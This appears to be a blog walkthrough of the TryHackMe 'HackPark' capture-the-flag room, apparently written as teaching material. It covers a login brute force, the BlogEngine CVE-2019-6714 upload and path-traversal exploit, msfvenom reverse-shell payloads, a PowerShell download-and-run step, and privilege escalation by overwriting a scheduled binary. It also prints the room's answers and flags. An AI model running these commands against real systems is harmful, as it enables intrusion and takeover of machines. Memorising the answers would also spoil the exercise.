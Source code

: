 ```yaml
---
title: HackPark
date: 2021-06-18 0:06:03 -0800
categories: [TryHackMe]
tags: [TryHackMe] 
pin: true
---
```

## [Click here if you're interested in the room!](https://tryhackme.com/room/hackpark)


**This guide is meant to be used as a supplement for learning, please tackle this on your own before reading this!**


1. [What's the name of the clown displayed on the homepage?](#1)
2. [What request type is the Windows website login form using?](#2)
3. [Guess a username, choose a password wordlist and gain credentials to a user account!](#3)
4. [Now you have logged into the website, are you able to identify the version of the BlogEngine?](#4)
5. [What is the CVE?](#5)
6. [Using the public exploit, gain initial access to the server. Who is the webserver running as?](#6)
7. [Generating a reverse-shell payload using msfvenom (naming mine hello.exe)](#7)
8. [What is the OS version of this windows machine?](#8)
9. [What is the name of the abnormal service running?](#9)
10. [What is the name of the binary you're supposed to exploit?](#10)
11. [What was the Original Install time? (This is date and time)](#11)


<a name="1">

## 1) What's the name of the clown displayed on the homepage?

```
pennywise
```

  
<a name="2">
  
## 2) What request type is the Windows website login form using?

```
POST
```

  
  
<a name="3">
  

## 3) Guess a username, choose a passwordlist and gain credentials to a user account!

From the hints we can see that username is admin, and we will be using the infamous rockyou.txt as the password list.

Using BurpSuite to intercept we can see the post form and the body of the post form.

![image](https://user-images.githubusercontent.com/60508293/122626662-acd4d800-d060-11eb-8b13-1310eb94ec0e.png)
  
![image](https://user-images.githubusercontent.com/60508293/122626714-cd9d2d80-d060-11eb-8791-349d512e1b5c.png)

![image](https://user-images.githubusercontent.com/60508293/122626734-e0176700-d060-11eb-8e96-f9fe9b6ce7bb.png)

```
login: admin
password: 1qaz2wsx
```
  
  
<a name="4">


## 4) Now you have logged into the website, are you able to identify the version of the BlogEngine?
  Scrolling down to the About tab on the left we can identify the version.
  
![image](https://user-images.githubusercontent.com/60508293/122626903-967b4c00-d061-11eb-9cba-9e0bd262a2f5.png)

```
3.3.6.0
```

<a name="5">
  
  
## 5) What is the CVE?

Now we have to gain access to the machine using a reverse shell, but we can look for a vulnerability on www.exploit-db.com and searching "BlogEngine"

We found what we're looking for.
![image](https://user-images.githubusercontent.com/60508293/122626964-ccb8cb80-d061-11eb-9e27-b4c8e7f5ca7f.png)


```
CVE-2019-6714
```

<a name="6">
  
  
  
## 6) Using the public exploit, gain initial access to the server. Who is the webserver running as?
  
  
  
  
Go to Content -> Posts -> Welcome to HackPark
![image](https://user-images.githubusercontent.com/60508293/123197375-484eba00-d460-11eb-84bc-b5fe921e2358.png)
  
  
  
Upload PostView.ascx
  
  
Setup a nc listener on your chosen port.
```bash
nc -lvnp 4444
```

After, go to
```
http://{target_ip}/?theme=../../App_Data/files
```
  

![image](https://user-images.githubusercontent.com/60508293/123197721-c4e19880-d460-11eb-8757-6708f4be4d02.png)

```
iis apppool\blog
```
  
  
Time to pivot from netcat to meterpreter for a more full-fleshed shell.
  
  
<a name="7">
  
## 7) Generating a reverse-shell payload using msfvenom (naming mine hello.exe)
  
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={your_ip} LPORT={your port} -f exe -o hello.exe
```

Setup a http server and download the payload.
```bash
python3 -m http.server
```
 
First, navigate to C:\Windows\Temp
  
  
Download the payload.
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/hello.exe','hello.exe')"
```
  
  
Setup metasploit
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LPORT {your port}
set LHOST {your ip}
run
```
Start Process
```
powershell "Start-Process 'hello.exe'"
```
  

We now have a meterpreter session!
![image](https://user-images.githubusercontent.com/60508293/123199167-37537800-d463-11eb-91f0-a59f819a374a.png)
  

  
<a name="8">
  
  
  
## 8) What is the OS version of this windows machine?
  
  
![image](https://user-images.githubusercontent.com/60508293/123199476-c95b8080-d463-11eb-93ef-9fe073366576.png)
  
```
Windows 2012 R2 (6.3 Build 9600)
```

  
I'm going to be further enumerating the machine using [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). 

  
```metasploit
upload winPEAS.bat
shell
winPEAS.bat
```
  
<a name="9">
  
  
## 9) What is the name of the abnormal service running?
I see something interesting
  
  
![image](https://user-images.githubusercontent.com/60508293/123202547-a207b200-d469-11eb-864b-5bebce900e15.png)
  
```
WindowsScheduler
```
  
  
<a name="10">
  

## 10) What is the name of the binary you're supposed to exploit? 
  
Navigating to "C:\Program Files (x86)\SystemScheduler\events
  
Taking a look glance at all the .txt files I see something that sticks out:
![image](https://user-images.githubusercontent.com/60508293/123203405-273f9680-d46b-11eb-8436-2d44ac2e4604.png)
  
Message.exe seems to be running approximately every 30 seconds as admin.

```
Message.exe
```
  
Let's run our own payload abusing this fact.
  
Spawn a msfvenom payload called Message.exe
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={your_ip} LPORT={your_port} -f exe -o Message.exe
```
  
Setup another meterpreter session or a nc session.

Go to "C:\Program Files (x86)\SystemScheduler" and overwrite Message.exe

After a few seconds we should be connected:
  
![image](https://user-images.githubusercontent.com/60508293/123204808-aafa8280-d46d-11eb-9f82-c55d099bbc7d.png)


I'm in metasploit so to search for text files
```
search -f *.txt
```
  
  
![image](https://user-images.githubusercontent.com/60508293/123205061-15132780-d46e-11eb-8112-3eedb819a5a9.png)
  
  
![image](https://user-images.githubusercontent.com/60508293/123205300-7affaf00-d46e-11eb-9f47-9f66d2c1e0fd.png)

  
```bash
cat "c:\Users\jeff\Desktop\user.txt"
cat "c:\Users\Administrator\Desktop\root.txt"
```

**FLAG for Jeff** 759bd8af507517bcfaede78a21a73e39
  
  
**FLAG for Root** 7e13d97f05f7ceb9881a3eb3d78d3e72
  
  
  
<a name="11">

## 11) What was the Original Install Time? 

Spawn a regular shell from meterpreter session then use the command systeminfo to find the time.
```
shell
systeminfo
```
![image](https://user-images.githubusercontent.com/60508293/123205887-856e7880-d46f-11eb-913b-0a513512ef18.png)

```
8/3/2019 10:43:23
```
